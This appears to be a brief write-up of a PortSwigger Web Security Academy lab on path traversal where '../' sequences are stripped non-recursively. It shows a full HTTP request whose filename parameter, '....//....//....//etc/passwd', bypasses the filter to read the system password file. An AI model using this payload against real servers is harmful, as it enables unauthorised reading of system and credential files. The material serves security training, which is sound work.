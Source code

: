 ### Lab: File path traversal, traversal sequences stripped non-recursively

---

双写绕过

```(空)
GET /image?filename=....//....//....//etc/passwd HTTP/1.1
Host: 0a4d00b904779d0d81193fa7001e002b.web-security-academy.net
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
Cookie: session=WksCtkBKHRodMwy2hUqfjQGRRda8eZs9
Connection: keep-alive
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
sec-ch-ua-mobile: ?0
Sec-Fetch-Dest: image
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Sec-Fetch-Mode: no-cors
sec-ch-ua-platform: "Windows"
Referer: https://0a4d00b904779d0d81193fa7001e002b.web-security-academy.net/
```



![image-20241217153742295](https://gitee.com/bx33661/image/raw/master/path/image-20241217153742295.png)